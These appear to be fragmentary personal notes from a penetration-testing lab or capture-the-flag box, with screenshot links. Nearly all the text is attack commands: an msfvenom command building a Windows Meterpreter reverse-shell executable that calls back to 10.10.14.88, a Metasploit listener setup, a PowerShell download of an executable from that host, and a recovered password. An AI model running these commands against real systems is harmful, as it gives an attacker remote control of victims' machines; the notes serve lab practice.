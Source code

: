 `msfvenom -p windows/meterpreter/reverse_tcp  LHOST=10.10.14.88 LPORT=8000 -f exe -o shell.exe`

```bash
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost tun0
set lport 8000
```

plugin found and found passowrd: `s67u84zKq8IXw`
![[Screenshots/Pasted image 20240612233809.png]]

RunAsCS for admin account?
`iwr -uri http://10.10.14.88/run.exe -Outfile run.exe`


![[Screenshots/Pasted image 20240612234656.png]]

